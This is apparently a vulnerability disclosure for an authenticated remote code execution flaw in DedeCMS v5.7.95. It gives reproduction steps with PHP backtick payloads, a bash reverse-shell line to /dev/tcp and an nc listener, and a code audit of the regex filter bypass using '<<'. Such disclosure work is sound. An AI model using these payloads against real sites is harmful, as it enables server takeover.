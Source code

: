# DedeCMS v5.7.95 RCE

Dedecms official website：https://www.dedecms.com/download。

## Vulnerability description

There is an arbitrary command execution vulnerability in the background of dedecms v5.7.95, which can write malicious code and cause rce vulnerability.



## Vulnerability impact

DedeCMS v5.7.95



## Recurrence process

First visit /dede to log in to the background.

Visit `dede/mytag_ main.php`, inserts a tag.

![image-20220621000017225](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621000017225.png)

The main contents are as follows:

```php
<<?=`ls`;?>
```

The backquote(\`) is actually the alias of the shell_exec function:

![image-20220620235742551](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220620235742551.png)

Click "OK" to get the corresponding number, which is marked as 3 this time. Visit /plus/mytag_js.php?arcID=3&nocache=1, where `arcID=3` is the tag number. After that, the file a will be generated and directly included.

![image-20220621001339740](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001339740.png)

Further use to reverse shell:

```php
<<?=`bash -i &>/dev/tcp/127.0.0.1/2333 <&1`;?>
```

![image-20220621001414973](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001414973.png)

use ncat:

```bash
nc -lvvp 2333
```

Visit /plus/mytag_js.php?arcID=3&nocache=1 to reverse the shell successfully:

![image-20220621001633221](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001633221.png)



## Code audit

Vulnerability location is in `plus/mytag_js.php`, you can see that the file contains directly after the file is written. In this case, we don't have to care about the file name. Here, the file name has a fixed htm suffix. We need to care about what the myvalues content is when the file is written.

![image-20220621001801902](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001801902.png)

The value of myvalues is found through query. The query statements are:

```sql
SELECT * FROM `#@__mytag` WHERE aid='$aid' 
```

![image-20220621001953888](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001953888.png)

You can search globally to get the information in mytag_add.php or mytag_edit.php. These two files involve the insertion or update of tables.

![image-20220621002146874](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621002146874.png)

So visit mytag_main.php, here are add and edit operations

![image-20220621002256500](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621002256500.png)

a lot of malicious functions are filtered in plus/mytag_js.php, but the backquotes(\`) are not filtered, and they cannot match `[^<]+<\?(php|=)`：

```php
// will be matched
abcde<?php `ls`;?>
<?=`ls`;?>

// will not be matched
<<?=`ls`?>
```

Use  `<<`  to bypass `[^<]+<\?(php|=)`, thus rce succeeds.

![image-20220621002749384](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621002749384.png)

See the "Recurrence process" above for specific operation and utilization.
